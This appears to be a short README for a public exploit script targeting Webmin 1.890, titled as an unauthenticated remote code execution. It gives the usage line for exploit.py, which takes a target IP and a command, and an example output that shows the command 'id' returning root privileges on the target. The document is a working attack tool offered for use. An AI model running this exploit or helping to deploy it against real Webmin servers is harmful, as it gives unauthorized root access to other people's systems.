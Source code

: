 # WebMin-1.890-Unauthenticated-RCE

USAGE: python3 exploit.py [TARGET IP] [COMMAND]

Example Output:
python3 exploit.py 1**.2*.*.*** id

<p> <h1>Error - Perl execution failed</h1>
<p>Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
</p></p>'

  
